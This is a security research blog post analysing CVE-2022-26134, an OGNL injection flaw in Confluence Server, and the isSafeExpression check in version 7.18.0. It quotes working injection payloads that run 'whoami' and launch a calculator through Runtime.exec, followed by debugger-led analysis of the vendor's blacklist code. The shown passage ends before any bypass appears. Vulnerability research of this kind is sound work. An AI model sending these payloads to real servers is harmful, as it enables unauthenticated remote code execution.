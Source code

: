 ```yaml
---
layout: post
title:  "CVE-2022-26134: A look into bypass isSafeExpression check in Confluence Preauth RCE"
date:   2022-06-06 16:00:00 +0700
categories: research
author: Quang Vo
tags: 0day, cve-2022-26134
description: Research analysis and develop a working exploit poc script 
---
```


## Introduction & Environment setup

CVE-2022-26134 is an Preauth RCE ( OGNL injection vulnerability ) in Confluence Server. As there are a lot of technical analysis and payload about the vulnerability already, while the payload works on most of confluence server versions, but it won't work in Confluence server version 7.18.0 because the dev team has added some additional check for safe expression. So in this post, I will focus on the bypass `isSafeExpression` of Confluence version 7.18.0.

For environment setup, I download Confluence server version 7.18.0 on: [https://www.atlassian.com/software/confluence/download-archives](https://www.atlassian.com/software/confluence/download-archives)

For Postgres database, I use docker to quickly spin up the postgresdb:
```text
version: '3.4'
services:
        db:
                image: postgres:latest
                environment:
                        - POSTGRES_PASSWORD=postgres
                        - POSTGRES_DB=confluence
                        - POSTGRES_USER=postgres
                ports:
                        - 5432:5432
```

## Technical Analysis

Rapid7 Team did a great job on publishing the [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) and the exploit payload, here's the payload that I copied from their blog

```java
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}
```

But when I try that payload on Confluence version 7.18.0, it didn't work. So I add remote debugger to add breakpoints to see what is the difference between their version and mine.


Based on security advisories from Confluence, I download the `xwork-1.0.3-atlassian-10.jar` from their website and start to diffing patches, it's easy to identify  `ActionChainResult.class`  is where our vulnerability lies at.

![image](https://user-images.githubusercontent.com/37280106/172528678-4bed14c4-bc8d-4809-99ae-1c49d86fa9c2.png)

How an attacker provided URI can cause the vulnerability is well-explained and mentioned in this [blog post](https://www.rapid7.com/blog/post/2022/06/02/active-exploitation-of-confluence-cve-2022-26134/) ( you can go to their blog if you curious about the call stack to reach to our vulnerable code ), I just want to quickly note that because of this piece of code:

```java
public static String getNamespaceFromServletPath(String servletPath) {
    servletPath = servletPath.substring(0, servletPath.lastIndexOf("/"));
    return servletPath;
}
```

Every payload that you send must end with `/` , otherwise it won't reach the vulnerable code path. I learned that from my own experience after trying to figure it out why the breakpoint won't hit when I send the payload 

Our call stack to vulnerable code so far:
```
TextParseUtil.translateVariables(this.namespace, stack);
        OgnlValueStack.findValue
```

Content of `OgnlValueStack.findValue`
![image](https://user-images.githubusercontent.com/37280106/172530117-33346b6c-7804-483a-ae1f-1dfdcc2eaee6.png)

Here we see that there is an additional check `this.safeExpressionUtil.isSafeExpression(expr)` ,  which will eventually leads to `SafeExpressionUtil.isSafeExpressionInternal`

Content of `SafeExpressionUtil.isSafeExpressionInternal` , let's put a breakpoint at this function and send our payload to see what will happen
![image](https://user-images.githubusercontent.com/37280106/172530562-d25f5861-49b6-4de8-b4e7-35719025496f.png)

Here I use the simple payload to hit the breakpoint in our code: 
```
%24%7b%22%22%20%2b%20Class.forName(%22java.lang.Runtime%22).getMethod(%22getRuntime%22%2c%20null).invoke(null%2cnull).exec(%22gnome-calculator%22)%7d%7d/
```
![image](https://user-images.githubusercontent.com/37280106/172531464-cc30aea6-b81a-45c1-af0c-113494a2348e.png)

Here we will go through the first check, `isUnsafeClass(expr)` 

```java
    private boolean isUnSafeClass(String expression) {
        String trimmedClassName = this.trimQuotes(expression);
        if (this.unsafePropertyNames.contains(trimmedClassName)) {
            return true;
        } else if (SourceVersion.isName(trimmedClassName)) {
            List<String> parentPackageNames = this.populateParentPackages(trimmedClassName, new ArrayList());
            Stream var10000 = parentPackageNames.stream();
            Set var10001 = this.unsafePackageNames;
            var10001.getClass();
            return var10000.anyMatch(var10001::contains);
        } else {
            return false;
        }
    }
```
Where `this.unsafePropertyNames` is a `HashSet` includes:
![image](https://user-images.githubusercontent.com/37280106/172532694-065d5872-2a97-46fc-b260-ef3be1f2bb19.png)

Here we have a blacklist of forbidden property names, luckily our `trimmedClassName` variable is a long expression string **still** and not contains in the hashset so we can pass this check. Please keep in mind this list because it will be very important as we go along in our debug journey 

Follow our code flow, we hit another check `this.containsUnsafeExpression(parsedExpression, visitedExpression)`
![image](https://user-images.githubusercontent.com/37280106/172533345-09b239d4-90b3-4261-9495-317a5235613b.png)

Content of `this.containsUnsafeExpression` 

![image](https://user-images.githubusercontent.com/37280106/172533604-fd1fc44d-143d-4444-8100-353e85540adb.png)

At a high-level overview of this function, it checks for "unsafe" expression by:
- Have a allowed whitelist of classNames, methodNames, variableNames and properties
- Utilies AST parsing to check for unsafe node types
